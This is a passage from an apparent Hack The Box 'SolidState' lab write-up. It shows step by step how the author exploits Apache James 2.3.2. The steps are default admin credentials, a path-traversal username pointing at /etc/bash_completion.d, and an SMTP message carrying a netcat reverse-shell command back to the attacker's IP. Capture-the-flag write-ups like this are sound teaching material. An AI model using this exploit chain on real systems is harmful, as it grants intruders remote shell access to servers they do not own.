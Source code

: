 The “ls” and “cat” commands work, so we can at least view the user.txt flag.

![](../images/max/597/1*nLY63rKrGS5cSJYalIg0rg.png)

There are several things you can do to try and break out of a restricted shell. I tried a bunch of them, but nothing worked. I’m not even allowed to change directories!

```text
mindy@solidstate:~$ cd /home
-rbash: cd: restricted
```

We seem to have reached a dead end, so let’s go back to the RCE exploit we found earlier. I’m going to exploit this manually instead of using the script on exploitdb.

Log back into the James Remote Admin server and create a user with the username “../../../../../../../../etc/bash\_completion.d” and password “password”.

```text
root@kali:~/Desktop/htb/solidstate# nc 10.10.10.51 4555
JAMES Remote Administration Tool 2.3.2
Please enter your login and password
Login id:
root
Password:
root
Welcome root. HELP for a list of commands
adduser ../../../../../../../../etc/bash_completion.d password
User ../../../../../../../../etc/bash_completion.d added
```

Now let’s send this user an email that contains a reverse shell.

```text
root@kali:~# telnet 10.10.10.51 25
Trying 10.10.10.51...
Connected to 10.10.10.51.
Escape character is '^]'.
220 solidstate SMTP Server (JAMES SMTP Server 2.3.2) ready Mon, 30 Dec 2019 17:10:56 -0500 (EST)
EHLO bla.bla
250-solidstate Hello bla.bla (10.10.14.12 [10.10.14.12])
250-PIPELINING
250 ENHANCEDSTATUSCODES
MAIL FROM: <'random@random.com>
250 2.1.0 Sender <'random@random.com> OK
RCPT TO: <../../../../../../../../etc/bash_completion.d>
250 2.1.5 Recipient <../../../../../../../../etc/bash_completion.d@localhost> OK
DATA
354 Ok Send data ending with <CRLF>.<CRLF>
FROM: bla.bla
'
/bin/nc -e /bin/bash 10.10.14.12 1234
.
250 2.6.0 Message received
quit
221 2.0.0 solidstate Service closing transmission channel
Connection closed by foreign host.
```
